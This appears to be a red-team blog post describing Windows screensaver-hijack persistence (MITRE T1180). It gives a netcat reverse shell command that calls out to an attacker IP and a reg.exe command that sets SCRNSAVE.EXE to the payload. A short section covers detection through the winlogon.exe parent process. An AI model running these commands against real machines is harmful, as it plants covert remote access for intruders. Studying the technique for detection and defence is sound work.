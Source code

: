 ```yaml
---
layout: post
title: "t1180 screensaver hijack"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


---
description: Hijacking screensaver for persistence.
---

# Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file.&#x20;

In this test, I will use a netcat reverse shell as my malicious payload:

{% code title="c:\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](<../../.gitbook/assets/screensaver-shell (1).png>)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}
@spotheplanet
